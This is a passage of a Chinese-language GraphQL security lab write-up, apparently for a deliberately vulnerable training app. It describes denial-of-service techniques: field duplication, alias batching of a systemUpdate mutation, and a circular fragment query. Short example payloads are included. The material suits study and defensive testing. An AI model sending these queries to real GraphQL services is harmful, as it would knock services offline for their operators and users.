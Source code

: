 ```plain
                            }
                          }
                        }
                      }
                    }
                  }
                }
              }
            }
          }
        }
      }
    }
  }
}
```

## DoS: Field duplication attack

重复转储攻击

对 GraphQL 服务器进行 DoS 攻击的一种简单方法是简单地复制查询中的字段

这其实并不是这个靶场中要说明的漏洞 在正常的 Graphql 查询中我们就可以简单地复制查询字段进行测试

## DoS: Aliases based attack

Graphql 不会在同一次请求中处理相同键名两次，这时候就可以通过别名来进行攻击

```plain
q0:systemUpdate
q1:systemUpdate
q2:systemUpdate
q3:systemUpdate
q4:systemUpdate
q5:systemUpdate
q6:systemUpdate
q7:systemUpdate
q8:systemUpdate
q9:systemUpdate
```

## DoS: Circular fragment

```plain
query CircularFragment {
    pastes {
        ...Start
    }
}

fragment End on PasteObject {
        ...Start
}
```
